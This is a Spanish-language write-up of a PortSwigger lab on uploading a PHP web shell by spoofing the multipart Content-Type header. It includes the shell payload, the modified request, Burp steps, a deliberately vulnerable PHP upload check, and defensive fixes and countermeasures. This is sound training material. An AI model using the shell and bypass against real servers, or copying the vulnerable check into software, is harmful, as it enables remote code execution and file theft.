

# Writeup: Web shell upload via Content-Type restriction bypass (PortSwigger)

- **Lab**: Web shell upload via Content-Type restriction bypass
- **URL**: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass
- **Categoría**: File upload / Content-Type bypass / Web shell / RCE
- **Dificultad**: Apprentice
- **Credenciales**: `wiener:peter`

---

## 1. Objetivo

Mismo target (`/home/carlos/secret`), mismo endpoint (`POST /my-account/avatar`). La defensa: la app valida el header `Content-Type` del **part multipart** del archivo y rechaza tipos no-imagen. Mensaje de error visible en la UI:

> Sorry, file type application/x-php is not allowed. Only image/jpeg and image/png are allowed.

Bypass: interceptar el upload en Burp y cambiar el `Content-Type` del part del archivo de `application/x-php` a `image/jpeg`.

Webshell idéntico al lab anterior:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Request modificado (cambio en una línea del part):

```
------WebKitFormBoundary...
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg                              <-- antes: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Después del upload, navegar a `/files/avatars/exploit.php` y leer el secret.

### Insight central

**Validar el `Content-Type` del part multipart es trust the client**: el header lo setea el cliente al construir el request, no el server. Es la misma clase de error que confiar en `Referer`, `User-Agent` o `X-Forwarded-For` para autorización — un atributo del request que el cliente decide. El browser lo deriva de la extensión local del archivo elegido en el `<input type="file">`, pero cualquier cliente HTTP (curl, scripts, Burp) puede mandar el valor que quiera. La defensa correcta valida el contenido real del archivo (magic bytes), no metadatos auto-declarados por el cliente.

---

## 2. Recon y resolución

### 2.1 Identificar la defensa

Login `wiener:peter`. Crear `exploit.php`:

```bash
echo '<?php echo file_get_contents("/home/carlos/secret"); ?>' > exploit.php
```

Subir vía la UI. La app responde con un mensaje explícito:

> Sorry, file type application/x-php is not allowed. Only image/jpeg and image/png are allowed.

Mensaje de error útil: dice **qué validó** (file type / Content-Type) y **qué se permite** (jpeg, png). Esto orienta el bypass directamente — si supiéramos solo que rechaza, habría que probar varias defensas; con el mensaje, el target es claro.

### 2.2 Bypass con Burp

Dos formas operacionales:

**Opción A — Interceptor activo**:

1. Burp → Proxy → Intercept → "Intercept is on".
2. En el browser, repetir el upload. Burp atrapa el request.
3. Editar la línea `Content-Type: application/x-php` dentro del part del archivo, cambiar a `Content-Type: image/jpeg`.
4. Forward.
5. Apagar el interceptor.

**Opción B — Repeater (más cómodo)**:

1. Después del primer intento fallido, ir a HTTP history.
2. Click derecho sobre el `POST /my-account/avatar` que dio error → Send to Repeater.
3. En Repeater, editar el `Content-Type` del part y click Send.

El part editado:

```
------WebKitFormBoundaryXXX
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Server acepta el upload. El archivo queda en `/files/avatars/exploit.php`.

### 2.3 Ejecutar

Navegar a `https://<lab>/files/avatars/exploit.php`. Body de la response: el secret. Submit en la solución del lab.

---

## 3. Por qué funciona

### 3.1 Anatomía del bug

```php
// Antipatrón - validar Content-Type del part multipart
$allowed_types = ['image/jpeg', 'image/png'];
$type = $_FILES['avatar']['type'];  // <-- esto viene del cliente, no es trustworthy
if (!in_array($type, $allowed_types)) {
    die("Sorry, file type $type is not allowed. Only " . implode(' and ', $allowed_types) . " are allowed.");
}
move_uploaded_file($_FILES['avatar']['tmp_name'], '/var/www/files/avatars/' . $_FILES['avatar']['name']);
```

El `$_FILES['avatar']['type']` (PHP) y equivalentes en otros lenguajes (`request.files['avatar'].content_type` en Flask, `MultipartFile.getContentType()` en Spring) reflejan **el header que el cliente puso en el part multipart**. No es derivado del contenido del archivo — el server framework solo parsea el header como string.

El cliente browser deriva ese header de:
1. La extensión del archivo seleccionado en el `<input type="file">` (mapeo extensión → MIME desde el OS).
2. En algunos casos, magic bytes locales del archivo (raro).

Pero un cliente no-browser (Burp, curl, scripts custom) construye el request a mano y pone el Content-Type que quiera. La validación server-side opera sobre datos que el cliente controla — siempre bypass-eable.

### 3.2 Familia del antipatrón "trust client-set headers"

| Header | Uso legítimo | Antipatrón de seguridad |
|---|---|---|
| `Content-Type` (multipart part) | Hint para parsing | Validar tipo de archivo |
| `Content-Type` (request) | Indicar formato del body | Filtrar por tipo |
| `Referer` | Analytics, redirects | Validar origen para authz |
| `User-Agent` | Telemetry, content negotiation | Detectar/bloquear bots |
| `X-Forwarded-For` | Logging cuando hay proxy | IP whitelisting / authz |
| `Origin` | CORS preflight | Decidir CSRF sin token |
| `Host` | Routing virtual hosts | SSRF allowlist |

Patrón común: **el header lo setea el cliente, así que cualquier defensa que confíe en su valor está confiando en el atacante**. La regla operacional: si una decisión de seguridad depende de un header del request, validarlo no resuelve nada (el atacante lo puede setear); la defensa correcta usa atributos que el server controla (sesión, token criptográfico, contenido real del archivo, IP de la conexión TCP, etc.).

### 3.3 Por qué `Content-Type` del part NO es trustworthy

El RFC 7578 (multipart/form-data, que obsoleta al RFC 2388) describe el `Content-Type` del part como **opcional y de uso informativo**. No es un campo de seguridad. El cliente lo manda cuando puede inferirlo (browsers usualmente sí), o lo omite (scripts/curl pueden o no mandarlo).

Consecuencias prácticas:

- Si el server requiere `Content-Type` específico, un cliente legítimo que no lo manda falla. Mala UX para clientes API.
- Si el server lo valida, los clientes maliciosos lo falsifican trivialmente.
- Si el server lo ignora, no hay impacto funcional (el contenido del archivo se procesa igual).

La conclusión: el `Content-Type` del part es metadata informativa para parsing, no input de seguridad. Tratarlo como input de seguridad es bug categórico.

### 3.4 Mensajes de error que ayudan al atacante

El error de este lab es excepcionalmente útil:

> Sorry, file type **application/x-php** is not allowed. Only **image/jpeg and image/png** are allowed.

Tres datos filtrados:
1. **El servidor procesó el Content-Type del cliente**: confirma que esa es la defensa primaria.
2. **El servidor reconoce el tipo `application/x-php`**: indica que hay backend PHP (la extensión estaba bien interpretada).
3. **La whitelist exacta**: `image/jpeg`, `image/png`. El bypass es trivial — usar uno de esos.

Mensajes de error verbose son anti-patrón en producción: facilitan el reconocimiento del atacante. La regla defensiva: rechazar con un mensaje genérico ("file type not allowed") y loguear server-side los detalles para forensics.

### 3.5 Defensa correcta

```php
// Fix - magic bytes + whitelist de extension + rename + dir sin scripts
$allowed_ext = ['jpg', 'jpeg', 'png'];
$allowed_mime = ['image/jpeg', 'image/png'];

$ext = strtolower(pathinfo($_FILES['avatar']['name'], PATHINFO_EXTENSION));
if (!in_array($ext, $allowed_ext)) {
    die("File type not allowed");
}

// Magic bytes - leer el archivo y detectar el tipo real, no confiar en el header
$detected_mime = mime_content_type($_FILES['avatar']['tmp_name']);
if (!in_array($detected_mime, $allowed_mime)) {
    die("File type not allowed");
}

// Rename para que el filename del cliente no afecte la URL final
$new_name = bin2hex(random_bytes(16)) . '.' . $ext;
move_uploaded_file($_FILES['avatar']['tmp_name'], '/var/www/files/avatars/' . $new_name);
```

3 capas:
1. **Whitelist de extensión** (sintaxis del filename).
2. **Magic bytes** (`mime_content_type` lee los primeros bytes y detecta JPEG/PNG/etc desde el contenido real). Un archivo PHP no empieza con `FF D8 FF` o `89 50 4E 47` — el check rechaza.
3. **Rename a UUID** (igual al lab anterior).

Plus la defensa de config del server (deshabilitar ejecución de scripts en `/files/avatars/`).

### 3.6 Patrón estructural común con el lab simple

| Lab | Defensa naïve | Bypass | Asunción rota |
|---|---|---|---|
| `rce-via-web-shell-upload` | ninguna | `exploit.php` directo | (no hay defensa) |
| **`content-type-restriction-bypass` (este)** | validar `Content-Type` del part | cambiar header a `image/jpeg` | "el Content-Type del cliente describe el tipo real" |

El bypass es un caso particular del patrón "trust client-set data" que se repite en path traversal (validar input crudo en lugar del path canónico), access control (validar `Referer` en lugar de la sesión), y otros dominios. Todos comparten la misma estructura: el server delega una decisión de seguridad a un atributo que el cliente controla.

---

## 4. Resumen



Tres ideas:

1. **El `Content-Type` del part multipart lo setea el cliente, no el server**: el browser lo deriva de la extensión local; cualquier cliente no-browser (Burp, curl, scripts) lo manda como quiera. Validar ese header es trust the client.
2. **Mensajes de error verbose facilitan el ataque**: el error filtró exactamente la whitelist. La regla defensiva es rechazar con mensaje genérico y loguear los detalles server-side para forensics, no devolverlos al cliente.
3. **La defensa correcta es magic bytes**: leer los primeros bytes del archivo y verificar que matchean el tipo declarado (JPEG = `FF D8 FF`, PNG = `89 50 4E 47`). El contenido real del archivo es lo único que el server puede inspeccionar de manera autoritativa.

---

## 5. Contramedidas

1. **Validar magic bytes del contenido real**, no el `Content-Type` del part. `mime_content_type()` en PHP, `python-magic` en Python, `Tika` en Java. Detecta el tipo desde los primeros bytes del archivo, ignorando el header del cliente.
2. **Whitelist estricta de extensión + magic bytes**: ambos checks deben pasar. Extensión protege contra paths que se interpretan por sufijo; magic bytes protege contra archivos masquerading.
3. **Rename a UUID server-side**: el filename y la extensión del cliente nunca deben afectar el path final. El cliente envía intent, el server decide cómo almacenar.
4. **Deshabilitar ejecución de scripts en el directorio de uploads**: defensa-en-profundidad. Aunque un PHP pase la validación, el server no lo procesa como script. `php_flag engine off`, `Options -ExecCGI`, `AddType text/plain .php`.
5. **Mensajes de error genéricos**: rechazar con "File type not allowed" sin enumerar la whitelist. Los detalles van a logs server-side, no al cliente.
6. **Almacenamiento fuera del document root** o en bucket separado: servir los archivos a través de un endpoint dedicado que setea Content-Type explícito y nunca ejecuta el contenido.
7. **Tamaño máximo razonable**: rechazar uploads grandes (DoS). Para avatares: 1-2 MB.
8. **Tests automatizados**: por cada endpoint que acepte uploads, suite con archivos `.php`/`.jsp`/`.aspx` con Content-Type declarado como `image/jpeg`. Si pasa la validación, hay bug.
9. **Code review checklist**: cualquier `$_FILES['x']['type']`, `request.files['x'].content_type`, `MultipartFile.getContentType()` usado para una decisión de seguridad es bug. Marcar para auditoría.
10. **Mínimo privilegio** del proceso del web server. Limita el daño si la validación falla por completo.

---

## 6. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Web shell upload via Content-Type restriction bypass*. https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass
- PortSwigger Web Security Academy. (s.f.). *File upload vulnerabilities*. https://portswigger.net/web-security/file-upload
- IETF. (2015). *RFC 7578: Returning Values from Forms — multipart/form-data*. https://www.rfc-editor.org/rfc/rfc7578
- IETF. (1998). *RFC 2388: Returning Values from Forms — multipart/form-data* (obsoletado por RFC 7578). https://www.rfc-editor.org/rfc/rfc2388
- OWASP Foundation. (s.f.). *Unrestricted File Upload*. https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- OWASP Foundation. (s.f.). *File Upload Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
- MITRE Corporation. (2024). *CWE-434: Unrestricted Upload of File with Dangerous Type*. https://cwe.mitre.org/data/definitions/434.html
- MITRE Corporation. (2024). *CWE-646: Reliance on File Name or Extension of Externally-Supplied File*. https://cwe.mitre.org/data/definitions/646.html
- MITRE Corporation. (2024). *CWE-345: Insufficient Verification of Data Authenticity*. https://cwe.mitre.org/data/definitions/345.html
- MITRE Corporation. (2024). *ATT&CK Technique T1505.003: Server Software Component — Web Shell*. https://attack.mitre.org/techniques/T1505/003/
- swisskyrepo. (s.f.). *PayloadsAllTheThings — Upload Insecure Files*. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 10 (Attacking Back-End Components — File Upload Vulnerabilities).
- Inventario interno: [`inventario/04-explotacion/web/explotacion-fileupload.md`](../../../inventario/04-explotacion/web/explotacion-fileupload.md)
- Lab hermano (baseline sin defensa): [`learning/portswigger/file-upload-rce-via-web-shell-upload/writeup.md`](../file-upload-rce-via-web-shell-upload/writeup.md)
